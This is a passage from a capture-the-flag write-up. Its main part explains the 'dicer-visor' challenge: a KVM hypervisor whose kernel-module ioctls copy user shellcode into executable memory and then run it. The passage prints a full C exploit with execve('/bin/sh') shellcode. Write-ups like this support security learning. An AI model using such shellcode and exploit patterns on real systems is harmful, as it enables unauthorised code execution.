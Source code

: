 ```rust

    pub system_program: Program<'info, System>,
    pub token_program: Program<'info, Token>,
    pub rent: Sysvar<'info, Rent>,
    pub chall: Program<'info, chall::program::Chall>
}
```

### dicer-visor:

This program uses kvm API to execute a kernel with rootfs. In the kernel, the `vuln.ko` could be used to out some data to visor.The function `run_vm` in the dicer-visor allocates a `rwx` memory called `jit_mem`.  In `vuln.ko`, there are two ioctl cmd:

- 0xBEEF: outword `0xDICE`
- 0xDEAD: outword from shellcode array. And we can use `write` to write shellcode to the array.

In dicer-visor, 0xDEAD cmd will copy shellcode to `jit_mem` and 0xBEEF cmd will jump to `jit_mem` and execute our shellcode. So, we just need to write shellcode. The seccomp does not ban `execve`, we can run `execve("/bin/sh")`.

```C
#include "./exploit.h"

int global_fd;

void cmd1() { ioctl(global_fd, 0xBEEF, NULL); }

void cmd2() { ioctl(global_fd, 0xDEAD, NULL); }

int main() {
  global_fd = open("/dev/exploited-device", O_RDWR);
  if (global_fd < 0) {
    die("[!] Failed to open /dev/exploited-device");
  }
  unsigned char sc[] = "H\xb8/bin/sh\x00PH\x89\xe7H1\xd2H1\xf6j;X\x0f\x05";

  char buf[0x100];
  memset(buf, 0x90, sizeof(buf));
  memcpy(buf, sc, sizeof(sc));
  write(global_fd, buf, sizeof(buf));

  cmd2();
  cmd1();

  return 0;
}
```

## Web:

### Recursive-csp:
